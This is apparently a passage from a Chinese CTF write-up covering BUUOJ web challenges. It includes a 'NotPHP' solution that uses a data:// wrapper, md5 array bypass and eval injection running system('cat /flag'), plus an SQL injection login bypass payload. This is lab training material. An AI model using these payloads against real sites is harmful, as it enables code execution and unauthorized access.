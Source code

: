 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031628324.png)

访问 www.zip 解压后打开 secret 得到第三部分 flag

```
Part Three: u_th1nk_so?}
```

### NotPHP

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(file_get_contents($_GET['data']) == "Welcome to CTF"){
    if(md5($_GET['key1']) === md5($_GET['key2']) && $_GET['key1'] !== $_GET['key2']){
        if(!is_numeric($_POST['num']) && intval($_POST['num']) == 2077){
            echo "Hack Me";
            eval("#".$_GET['cmd']);
        }else{
            die("Number error!");
        }
    }else{
        die("Wrong Key!");
    }
}else{
    die("Pass it!");
}
```

payload 如下

```
http://f2d88e11-4d09-41a3-a6bc-7aff178cd8e1.node4.buuoj.cn:81/?data=data://text/plain,Welcome to CTF&key1[]=123&key2[]=456&cmd=?><?php system($_GET[1]);&1=cat /flag 

post: num=2077 
```

2077 后面有一个空格

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031632923.png)

### Word-For-You

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031636556.png)

查询处有 sql 注入

万能密码 `'or'1'='1`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210031637505.png)

时间盲注也行, 但有点麻烦, 懒得写了
